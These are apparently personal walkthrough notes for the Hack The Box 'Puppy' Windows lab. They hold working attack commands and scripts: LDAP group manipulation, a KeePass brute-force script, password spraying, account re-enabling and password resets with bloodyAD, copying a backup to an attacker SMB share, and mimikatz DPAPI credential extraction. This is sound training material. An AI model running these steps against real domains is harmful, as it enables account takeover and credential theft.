 # Puppy

## 📌 Box Info

- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)

creds

levi.james / KingofAkron2025!

53/tcp   open  domain        Simple DNS Plus
[88](Kerberos)/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-21 08:38:48Z)
[111]/tcp  open  [rpcbind](RPC)     2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  2,3         2049/udp   nfs
|   100005  1,2,3       2049/udp   mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100024  1           2049/tcp   status
|_100024  1           2049/udp   status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)


smbmap -H 10.10.11.70 -u levi.james -p KingofAkron2025!

IPC$
NETLOGON
SYSVOL


add.ldif
```
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=LEVI B. JAMES,OU=MANPOWER,DC=PUPPY,DC=HTB
```

```
ldapmodify -x -H ldap://10.10.11.70 -D "CN=LEVI B. JAMES,OU=MANPOWER,DC=puppy,DC=htb" -w 'KingofAkron2025!' -f add.ldif
```

```
net rpc group members "DEVELOPERS" -U "levi.james" -S 10.10.11.70
```

we check our perms again

```
smbmap -H 10.10.11.70 -u levi.james -p KingofAkron2025!
```

we view dev

```
smbclient //10.10.11.70/DEV -U levi.james
```

brute-kdbx.sh
```bash
#!/bin/bash

DB="recovery.kdbx"
WORDLIST="/usr/share/wordlists/rockyou.txt"

echo "[*] Starting brute-force on $DB using $WORDLIST"

while IFS= read -r password; do
    echo "[*] Trying: $password"

    echo "$password" | keepassxc-cli db-info "$DB" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] SUCCESS! Password found: $password"
        exit 0
    fi
done < "$WORDLIST"

echo "[-] Brute-force finished. No valid password found."
```

keepassxc recovery.kdbx

enter liverpool

create our user file and password file

user
```
ant.edwards
adam.silver
jamie.williamson
samuel.blake
steve.tucker
```

password
```
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
HJKL2025!
```

revisit bloodhound

```
MATCH p=shortestPath((n {owned:true})-[:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GPLink|AddAllowedToAct|AllowedToAct|WriteAccountRestrictions|SQLAdmin|ReadGMSAPassword|HasSIDHistory|CanPSRemote|SyncLAPSPassword|DumpSMSAPassword|AZMGGrantRole|AZMGAddSecret|AZMGAddOwner|AZMGAddMember|AZMGGrantAppRoles|AZNodeResourceGroup|AZWebsiteContributor|AZLogicAppContributo|AZAutomationContributor|AZAKSContributor|AZAddMembers|AZAddOwner|AZAddSecret|AZAvereContributor|AZContains|AZContributor|AZExecuteCommand|AZGetCertificates|AZGetKeys|AZGetSecrets|AZGlobalAdmin|AZHasRole|AZManagedIdentity|AZMemberOf|AZOwns|AZPrivilegedAuthAdmin|AZPrivilegedRoleAdmin|AZResetPassword|AZUserAccessAdministrator|AZAppAdmin|AZCloudAppAdmin|AZRunsAs|AZKeyVaultContributor|AZVMAdminLogin|AZVMContributor|AZLogicAppContributor|AddSelf|WriteSPN|AddKeyCredentialLink|DCSync*1..]->(m:Group {name:"DOMAIN ADMINS@PUPPY.HTB"})) WHERE NOT n=m RETURN p
```

look to see chain from ant.edwards to domain admin

![[Pasted image 20250522011631.png]]


install bloodyad

```
sudo apt install bloodAD
```

```bash
/usr/bin/bloodyAD --host 10.10.11.70 -d PUPPY.HTB -u 'ant.edwards' -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
```

check if adam silver is enabled

```bash
netexec ldap 10.10.11.70 -d puppy.htb -u 'adam.silver' -p 'HJKL2025!'
```

change password

```bash
bloodyAD --host '10.10.11.70' -d 'puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password adam.silver Pototo_123
```

```bash
netexec ldap 10.10.11.70 -d puppy.htb -u 'adam.silver' -p 'Pototo_123'
```

```bash
evil-winrm -i 10.10.11.70 -d puppy.htb -u adam.silver -p 'Pototo_123'
```

```powershell
whoami /priv
```

since the account gets disabled every 5 minutes

adam_unlocker.sh

```bash
#!/bin/bash

# Step 1: Enable adam.silver
echo "[*] Enabling adam.silver account..."
/usr/bin/bloodyAD --host 10.10.11.70 -d PUPPY.HTB -u 'ant.edwards' -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE

# Step 2: Check if adam.silver is enabled with original password
echo "[*] Testing login with old password (HJKL2025!)..."
netexec ldap 10.10.11.70 -d puppy.htb -u 'adam.silver' -p 'HJKL2025!'

# Step 3: Change password to Pototo_123
echo "[*] Changing password for adam.silver to 'Pototo_123'..."
/usr/bin/bloodyAD --host 10.10.11.70 -d puppy.htb -u 'ant.edwards' -p 'Antman2025!' set password adam.silver Pototo_123

# Step 4: Verify new credentials work
echo "[*] Verifying new password works for adam.silver..."
netexec ldap 10.10.11.70 -d puppy.htb -u 'adam.silver' -p 'Pototo_123'

# Step 5: Spawn Evil-WinRM shell
echo "[*] Launching Evil-WinRM as adam.silver..."
evil-winrm -i 10.10.11.70 -u adam.silver -p 'Pototo_123'
```


Local
```bash
impacket-smbserver loot $(pwd) -smb2support
```

DC
```
copy site-backup-2024-12-30.zip \\10.10.14.3\loot
```

```
unzip site-backup-2024-12-30.zip
```


```
grep -r -i -E 'password|passwd|pwd|secret|token|api|key' .
```

found creds in backup

```bash
evil-winrm -i 10.10.11.70 -u steph.cooper -p 'ChefSteph2025!'
```

```
upload /opt/BloodHound-Legacy-master/Collectors/SharpHound.exe
```

.\sharpHound.exe -c All

show all users in domain
```
net user
```

Look for access of DPAPI
```
dir "$env:APPDATA\Microsoft\Credentials"
dir "$env:LOCALAPPDATA\Microsoft\Credentials"
dir "$env:APPDATA\Microsoft\Protect"
```

https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html

#DPAPI [DPAPI](DPAPI.md)

```
upload mimikatz.exe
```

```
.\mimikatz.exe "dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" "exit"
```

read dpapi in windows
```
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /rpc" "exit"
```

.\mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /rpc" "exit"
